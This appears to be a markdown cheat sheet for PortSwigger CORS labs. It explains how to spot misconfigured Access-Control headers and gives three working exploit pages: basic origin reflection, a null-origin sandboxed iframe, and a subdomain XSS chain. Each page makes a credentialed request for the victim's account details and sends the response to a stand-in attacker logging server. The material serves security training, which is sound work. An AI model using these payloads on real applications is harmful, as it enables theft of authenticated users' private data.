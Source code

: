 # Cross-origin Resource Sharing (CORS)

## Summary

* [General Recon For CORS Vulnerabilities](#recon)
* [Portswigger Labs Cheat Sheet / Payloads](#cheat-sheet)

## Recon

### Identify CORS Misconfigurations

* Analyze all the application’s requests/responses to see if any explicitly support CORS

* Identify what Origins are allowed to submit CORS requests to the application, submit the following header in the requests:
    * Origin: *some-value*
    
* Identify if any of those requests can be used to send CORS request with credentials:
    * Access-Control-Allow-Credentials: true

* The examples from the labs can help create exploits to take advantage of these misconfigurations

---
---

## Cheat Sheet

### Basic Origin Reflection

* The application is allowing any Origin to submit a cross-origin request and view the authenticated response.

* This is possible because the application is returning the following headers in a response, which contains sensitive information about the logged in user:

```
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: attacker.com
```

* With these headers in the response, an attacker can host malicious code in their server, that will submit a request to the vulnerable application and direct the authenticated response back to their server.  Now the attacker needs to trick the victim user into visiting their website, while they’re authenticated to the vulnerable application.

    * *Make sure to set the file extension to .html or no extension also works in Exploit Server labs*

```html
<html>
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://VULNERABLE-APPLICATION.com/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='https://ATTACKERS-SERVER-LOG-LOCATION.com/log?key='+this.responseText;
    };
</script>
</html>
```


### Trusted Null Origin

* The application is only allowing the “null” Origin to submit a cross-origin request and view the authenticated response.

* This is possible because the application is returning the following headers in a response, which contains sensitive information about the logged in user:

```
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: null
```

* With these headers in the response, an attacker can host malicious code in their server, that will submit a request to the vulnerable application and direct the authenticated response back to their server.  The malicious code will be within an \<iframe\> that will cause the browser to set the Origin header to “null”.  The attacker now needs to trick the victim user into visiting their website, while they are authenticated to the vulnerable application.


    * *Make sure to set the file extension to .html or no extension also works in Exploit Server labs*

```html
<html>
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://VULNERABLE-APPLICATION.com/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='https://ATTACKERS-SERVER-LOG-LOCATION.com/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
</html>
```

### Subdomain Origin Allowed

* The application is only allowing subdomains to send cross-origin requests and view the authenticated response.

* This is possible because the application is returning the following headers in a response, which contains sensitive information about the logged in user:

```
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: subdomain.vulnerable-app.com
```

* This is possible as the subdomain is allowed to view the authenticated responses from the main application.  When the XSS script, which essentially will be hosted within the subdomain, is executed, the Origin header will include the **subdomain.vulnerable-app.com** value.  This allows the response to contain the authenticated data. The attacker now needs to trick the victim user into visiting their website, while they are authenticated to the vulnerable application.

    * *Make sure to set the file extension to .html or no extension also works in Exploit Server labs*

    * Make sure to encode the angle brackets <> in the payload within the *document.location* to prevent breaking the payload.  This payload is the exact same as the [Basic Origin Reflection](#basic-origin-reflection), except the payload is injected in the XSS vulnerable parameter of the Subdomain.

```html
<html>
<script>
    document.location="http://SUBDOMAIN.VULNERABLE-APPLICATION.com/?productId=4%3cscript%3e var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://VULNERABLE-APPLICATION.com/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://ATTACKERS-SERVER-LOG-LOCATION.net/log?key='%2bthis.responseText; };%3c/script%3e&storeId=1"
</script>
</html>
```